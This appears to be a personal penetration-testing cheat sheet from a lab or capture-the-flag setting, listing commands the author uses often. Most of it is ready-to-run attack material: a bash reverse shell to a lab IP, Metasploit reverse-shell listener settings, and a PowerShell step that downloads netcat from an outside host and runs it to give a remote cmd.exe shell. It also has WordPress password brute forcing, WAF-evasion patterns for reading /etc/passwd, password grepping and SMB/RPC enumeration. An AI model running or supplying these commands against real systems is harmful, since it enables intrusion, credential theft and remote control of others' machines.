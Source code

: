 ## Some commands which I used frequently 

### python command for bash 

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' 
```

### nice script for reverse
```echo 'bash -i >& /dev/tcp/10.10.14.44/10000 0>&1' > shell.sh ; chmod +x shell.sh```

### spawn nicer shell 

```/usr/bin/script -qc /bin/bash /dev/null ```

### to get nobody removed in NFS share
```
sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share
```

### msf meterpreter shell listener
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp
```

### Search 
```
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2
```

### nmap
```
Scan using default safe scripts         :	nmap -sV -sC 

Scan 100 most common ports (Fast)       :	nmap -F 
Scan using TCP connect                  :	nmap -sT 
Scan using TCP SYN scan (default)       :	nmap -sS 
Scan UDP ports                          :	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		    :	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		    :	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		  :	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						          :	nmap -Pn -p445 --script vuln -oN reconop.txt 
```

### SMB as used for msf
```
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```
### SMB as cmd
```
smbclient //1.1.1.4/ < folder name >
```
### smbmap
```
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication
```

### where command in win to search type of files
```
where /r c:\ proof.txt
```

### Wordpress brute force
```
wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt
```

### shell from powershell 
```
first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow
```

### Dropbox links
```
ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data
```

### file browser for jsp
```
java -jar file-browser.jar
```

### gcc
```
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp
```
### rpc commands
```
rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users
```

### /etc/passwd WAF restriction? Use these:
```
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
### paths for .bashrc
```
export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups
```
### paths for .zshrc
```
export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
```
### dhclient by default

```
sudo nano /etc/rc.local


#!/bin/bash
dhclient
exit 0


sudo chmod 755 /etc/rc.local

sudo systemctl enable rc-local

sudo systemctl restart rc-local

sudo systemctl status rc-local
```


---END
